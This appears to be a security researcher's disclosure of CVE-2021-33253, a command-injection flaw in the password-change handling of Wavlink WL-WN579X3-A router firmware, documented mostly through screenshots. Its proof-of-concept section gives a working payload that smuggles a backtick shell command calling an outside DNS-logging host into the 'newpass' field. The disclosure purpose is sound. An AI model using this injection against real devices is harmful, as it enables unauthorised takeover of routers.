 # CVE-2021-33253

A issue was dicovered on wavlink device with firmware at least from M79X3.V5030.180530 to M79X3.V5030.201201(newest version for now).   

A remote attacker can execute arbitrary code by sending  a crafted POST request to /cgi-bin/adm.cgi.    


## Intro 

When I was trying to analyze CVE-2020-10971，I downloaded the newest WL-WN579X3-A firmware posted on the official website of Wavlink.   

Firmware: https://www.wavlink.com/en_us/firmware/details/3a4d65ad3d.html  

After I checked all the code branches, I couldn't find the CVE-2020-10971, then I find a more old version firmware on the internet, I do notice that there was a RCE problem at adm.cgi correspond to https://james-clee.com/2020/04/18/multiple-wavlink-vulnerabilities/ .     

![](https://github.com/s0duku/issues/blob/main/wavlink/WL-WN579X3-A_RCE/5.png?raw=true)   

However I notice another RCE at the code branch which is responsible for handling password changes.  

The router has RCE problem when the web server are handling the request for changing the password from authenticated user.  

## The problem code    

![](https://github.com/s0duku/issues/blob/main/wavlink/WL-WN579X3-A_RCE/6.png?raw=true)    

![](https://github.com/s0duku/issues/blob/main/wavlink/WL-WN579X3-A_RCE/7.png?raw=true) 

![](https://github.com/s0duku/issues/blob/main/wavlink/WL-WN579X3-A_RCE/8.png?raw=true) 


## POC  

It not just affect the newest firmware, but alse the older version (at the newest version, serveral IP checks made the attacker can only use the RCE in adjacent networks).  

![](https://github.com/s0duku/issues/blob/main/wavlink/WL-WN579X3-A_RCE/1.png?raw=true)     

Set the 'newpass' value as %60ping%20-c%201%203vkslf.dnslog.cn%60 (\`ping -c 1 3vkslf.dnslog.cn\`)     

![](https://github.com/s0duku/issues/blob/main/wavlink/WL-WN579X3-A_RCE/9.png?raw=true)   

After I sended the POST request, DNSlog platform had the records   

![](https://github.com/s0duku/issues/blob/main/wavlink/WL-WN579X3-A_RCE/10.png?raw=true) 







